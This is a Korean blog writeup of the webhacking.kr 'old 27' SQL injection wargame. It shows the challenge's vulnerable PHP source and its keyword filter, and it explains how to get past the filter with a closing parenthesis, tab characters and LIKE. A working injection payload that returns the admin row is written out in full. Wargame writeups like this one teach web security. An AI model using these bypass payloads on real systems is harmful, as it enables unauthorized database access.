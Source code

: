 ```yaml
---
title: "webhacking.kr old 27 문제 풀이"
date: 2025-04-11 00:10:00 +0800
categories: [Wargame, Webhacking.kr]
tags: [cyber security, writeup, webhackingkr, web hacking, sql injection]
description: webhacking.kr old 27 문제 풀이
---
```


[https://webhacking.kr/challenge/web-12](https://webhacking.kr/challenge/web-12)
# 문제 풀이
## 분석
사이트에 접속하면 떡하니 SQL Injection 문제라고 힌트를 제공하고 있고 소스코드까지 주어진다.<br />
### 소스코드
```php
<?php
  include "../../config.php";
  if($_GET['view_source']) view_source();
?><html>
<head>
<title>Challenge 27</title>
</head>
<body>
<h1>SQL INJECTION</h1>
<form method=get action=index.php>
<input type=text name=no><input type=submit>
</form>
<?php
  if($_GET['no']){
  $db = dbconnect();
  if(preg_match("/#|select|\(| |limit|=|0x/i",$_GET['no'])) exit("no hack");
  $r=mysqli_fetch_array(mysqli_query($db,"select id from chall27 where id='guest' and no=({$_GET['no']})")) or die("query error");
  if($r['id']=="guest") echo("guest");
  if($r['id']=="admin") solve(27); // admin's no = 2
}
?>
<br><a href=?view_source=1>view-source</a>
</body>
</html>
```
코드를 보면 유저로부터 no라는 입력 값을 받아서 `select id from chall27 where id='guest' and no={user_input}`을 수행하고 결과의 id가 admin이라면 문제가 해결되는 방식이라고 한다.<br />
참고로 admin의 no은 2라는 것도 친절하게 알려주고 있다.
#### 필터링
```php
"/#|select|\(| |limit|=|0x/i"
```
하지만 쿼리 문을 실행하기 이전에 어떠한 필터링이 존재하는 것이 보인다.<br />
정규식을 이용해서 필터링을 하고있어서 어떤 구문들이 막히는건지 하나하나 살펴보아야 할 듯 하다.<br />
- \#
- select
- (
- space character
- limit
- =
- 0x

## 최종 풀이
위 필터링되는 문자, 구문들을 우회하여 id가 admin인 결과를 뽑아내는 것이 우리의 목표이다.<br />
### 필터링 우회
```php
$r=mysqli_fetch_array(mysqli_query($db,"select id from chall27 where id='guest' and no=({$_GET['no']})")) or die("query error");
```
우리가 값을 입력하면 `no=(` 다음으로 값이 들어간다. 그리고 필터링을 보면 ')' 닫는 괄호는 필터링에 걸리지 않으므로 쿼리의 열린 괄호를 강제로 닫는 것이 가능하다는 것이다.<br />

우선 우리가 사용해야하는 문자나 구문을 미리 정하고 해당 부분 들을 어떻게 우회할지 생각하는 것이 우선이다.<br />
```
123) or id=admin and no=2 -- 
```
아마 이렇게 작성하면 작동할 것 같은데 space와 '=' 기호에 필터링이 걸릴 것이다.<br />
space는 SQL 쿼리에서 탭 문자(%09)로 우회가 가능하고 등호는 like 구문을 사용하면 될 듯 하다.

```
123)%09or%09id%09like%09'admin'%09and%09no%09like%09'2'%09--%09
```
그렇게 필터링에 걸릴만한 부분들을 모두 변환해주고 URL에 직접 입력해주면 문제가 해결된다.